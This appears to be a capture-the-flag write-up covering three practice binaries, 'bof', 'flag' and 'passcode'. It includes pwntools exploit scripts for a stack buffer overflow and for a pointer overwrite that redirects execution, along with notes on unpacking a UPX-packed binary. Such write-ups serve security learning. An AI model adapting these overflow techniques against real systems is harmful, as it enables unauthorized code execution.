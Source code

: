 **Note:** `0x1dd905e8 + 4*0x01010101 = 0x21dd09ec`

## bof

```python

from pwn import *

def exploit(r):
    value = p32(0xcafebabe)
    hack = "A"*52 + value
    print hack
    r.sendline(hack)
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
    else:
        r = process(['./bof'])
        print util.proc.pidof(r)
        pause()

    exploit(r)
```

## flag

So this binary has been packed using [UPX](https://upx.github.io/). I suspected this because I couldn't `break` at anything in `gdb`, nor could I see the sections with `readelf -S flag`.

Unpacking binary:
```
$ upx -d flag
```

Then you can see the flag being put on the heap using [IDA](https://www.hex-rays.com/products/ida/) or `gdb`

## passcode

```python

from pwn import *

r = process("./passcode")
print util.proc.pidof(r)
pause()

r.sendline("A"*96 + p32(0x804a004))

r.sendline("%d" % int("080485d7", 16))

r.interactive()
```
